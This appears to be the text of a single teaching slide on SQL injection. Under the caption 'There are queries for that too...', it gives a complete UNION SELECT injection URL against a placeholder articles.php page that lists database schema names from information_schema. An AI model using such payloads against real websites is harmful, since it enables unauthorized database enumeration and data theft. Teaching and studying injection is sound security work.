

11
There are queries for that too...

http://www.site.com/articles.php?id=1234 UNION SELECT group_concat(schema_name),2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24 from information_schema.tables where table_schema=database() --